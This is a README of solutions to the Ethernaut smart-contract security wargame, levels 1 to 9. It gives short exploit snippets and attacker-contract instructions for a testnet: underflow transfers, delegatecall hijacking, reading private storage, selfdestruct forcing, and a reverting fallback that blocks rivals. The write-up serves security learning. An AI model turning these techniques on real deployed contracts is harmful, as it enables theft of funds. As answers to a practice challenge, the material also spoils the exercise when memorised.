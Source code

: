 # Ethernaut - Solutions

## 1. Fallback

```
await contract.contribute({ value: toWei("0.0001") });
await contract.sendTransaction({ value: toWei("0.0001") });
await contract.withdraw();
```


## 2. Fallout

```
await contract.Fal1out({ value: toWei("0.0001") });
await contract.collectAllocations();
```


## 3. Coin Flip

Compile [CoinFlipAttack.sol](./solutions/CoinFlipAttack.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Do not forget to specify the level `instance` address when deploying the attacker contract (constructor).  
Afterwards, just call the `callFlipWithCorrectGuess()` function 10 times.


## 4. Telephone

Compile [TelephoneProxy.sol](./solutions/TelephoneProxy.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `giveMeTelephoneOwnership(address _telephoneContract)` function with the level `instance` address as first argument.

## 5. Token

```
const balance = Number(await contract.balanceOf(player));
await contract.transfer(level /* can be any address except own */, balance + 1 /* create underflow in contract */);
```

## 6. Delegation

See solidity function [delegatecall](https://solidity-by-example.org/delegatecall/).
```
await contract.sendTransaction({ data: web3.eth.abi.encodeFunctionSignature("pwn()") });
```

## 7. Force

See solidity function [selfdestruct](https://solidity-by-example.org/hacks/self-destruct/).  
Compile [ForcePay.sol](./solutions/ForcePay.sol) and deploy it to the Rinkeby testnet with at least 0.001 ETH.
Afterwards, just call the `destroyAndLeaveBalanceAt(address _contract)` function with the level `instance` address as first argument.

## 8. Vault

```
const password = await web3.eth.getStorageAt(instance, 1); // get storage variable at index 1 of contract (although it's private!)
await contract.unlock(password);
```

## 9. King

Compile [King4Ever.sol](./solutions/King4Ever.sol) and deploy it to the Rinkeby testnet with at least 0.001 ETH and the level `instance` address as argument (constructor).
The fallback function of this contract is going to revert any subsequent transaction which is trying to claim the throne.

